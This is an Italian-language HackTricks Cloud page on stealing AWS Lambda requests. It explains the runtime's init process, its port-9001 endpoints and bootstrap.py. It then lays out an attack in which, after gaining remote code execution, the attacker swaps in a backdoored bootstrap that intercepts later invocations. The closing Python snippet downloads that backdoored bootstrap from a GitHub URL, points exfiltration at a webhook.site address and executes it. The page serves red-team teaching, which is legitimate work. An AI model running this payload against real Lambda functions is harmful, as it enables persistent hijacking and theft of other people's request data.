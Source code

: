 # AWS - Rubare le Richieste Lambda

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository github.

</details>
{% endhint %}

## Flusso Lambda

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** è un processo al di fuori del container che **invia** **invocazioni** al processo **init**.
2. Il processo init ascolta sulla porta **9001** esponendo alcuni endpoint interessanti:
* **`/2018-06-01/runtime/invocation/next`** – ottieni il prossimo evento di invocazione
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – restituisce la risposta del gestore per l'invocazione
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – restituisce un errore di esecuzione
3. **bootstrap.py** ha un ciclo che ottiene invocazioni dal processo init e chiama il codice degli utenti per gestirle (**`/next`**).
4. Infine, **bootstrap.py** invia a init la **risposta**

Nota che bootstrap carica il codice dell'utente come modulo, quindi qualsiasi esecuzione di codice effettuata dal codice degli utenti avviene effettivamente in questo processo.

## Rubare le Richieste Lambda

L'obiettivo di questo attacco è far eseguire al codice degli utenti un processo **`bootstrap.py`** dannoso all'interno del processo **`bootstrap.py`** che gestisce la richiesta vulnerabile. In questo modo, il processo **bootstrap dannoso** inizierà a **comunicare con il processo init** per gestire le richieste mentre il bootstrap **legittimo** è **intrappolato** eseguendo quello dannoso, quindi non chiederà richieste al processo init.&#x20;

Questo è un compito semplice da realizzare poiché il codice dell'utente viene eseguito dal processo **`bootstrap.py`** legittimo. Quindi l'attaccante potrebbe:

* **Inviare un risultato falso dell'invocazione corrente al processo init**, così init pensa che il processo bootstrap stia aspettando altre invocazioni.
* Una richiesta deve essere inviata a **`/${invoke-id}/response`**&#x20;
* L'invoke-id può essere ottenuto dallo stack del processo **`bootstrap.py`** legittimo utilizzando il modulo python [**inspect**](https://docs.python.org/3/library/inspect.html) (come [proposto qui](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) o semplicemente richiedendolo di nuovo a **`/2018-06-01/runtime/invocation/next`** (come [proposto qui](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Eseguire un **`boostrap.py`** dannoso che gestirà le prossime invocazioni
* Per scopi di furtività è possibile inviare i parametri delle invocazioni lambda a un C2 controllato dall'attaccante e poi gestire le richieste come al solito.
* Per questo attacco, è sufficiente ottenere il codice originale di **`bootstrap.py`** dal sistema o da [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), aggiungere il codice dannoso ed eseguirlo dall'invocazione lambda corrente.

### Passaggi dell'Attacco

1. Trovare una vulnerabilità **RCE**.
2. Generare un **bootstrap** **dannoso** (es. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Eseguire** il bootstrap dannoso.

Puoi facilmente eseguire queste azioni eseguendo:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Per maggiori informazioni controlla [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Riferimenti

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repo di github.

</details>
{% endhint %}
